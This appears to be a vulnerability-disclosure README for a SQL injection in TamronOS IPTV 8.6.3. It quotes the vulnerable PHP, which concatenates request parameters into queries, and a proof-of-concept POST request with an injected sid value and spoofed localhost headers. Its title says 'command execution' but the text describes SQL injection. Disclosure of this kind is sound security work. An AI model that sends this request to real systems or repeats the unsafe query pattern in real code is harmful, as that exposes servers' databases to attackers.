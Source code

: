 # Tamronos-iptv-update_server_status-sql

The TamronOS IPTV system has command execution vulnerabilities

official website：http://www.tamronos.com/


## Vulnerability Details

The `update_server_status()` method in the `iptv/Controllers/ApkapiController.php` file was directly passed into the `updateserver()` method without filtering the `$ip`, `$sid`, and `$netstream` parameters passed in by the user, resulting in SQL injection.
![image](https://github.com/yuxianzi/Tamronos-iptv-CVE/assets/41229220/ae4e9386-0ca1-4da5-aa34-40bd6473f781)




updateserver() Code:
```
	function updateserver($ip,$sid,$netstream)
	{
		$sql = "select * from videoserver where ip='".$ip."' and sid=".$sid;
		$this->query($sql);
        if(!is_numeric($netstream))
            $netstream = 0;
        $sql = "update videoserver set netstream=".$netstream." where ip='".$ip."' and sid=".$sid;
        //error_log($sql);
        $this->query($sql);
	}
```
![image](https://github.com/yuxianzi/Tamronos-iptv-CVE/assets/41229220/718016c0-0d0e-441b-ba32-c3661513066d)


## Recurrence vulnerability
Test version : `TamronOS IPTV 8.6.3`

request data
```
POST /api/update_server_status.ecgi HTTP/1.1
Host: 172.16.49.166
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Referer: http://172.16.49.166/manage
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
sec-ch-ua-platform: "macOS"
sec-ch-ua: "Google Chrome";v="111", "Chromium";v="111", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

ip=1&sid=1 and 1
```
![image](https://github.com/yuxianzi/Tamronos-iptv-CVE/assets/41229220/86b53221-f1c1-4eb4-94f7-1e435745857e)
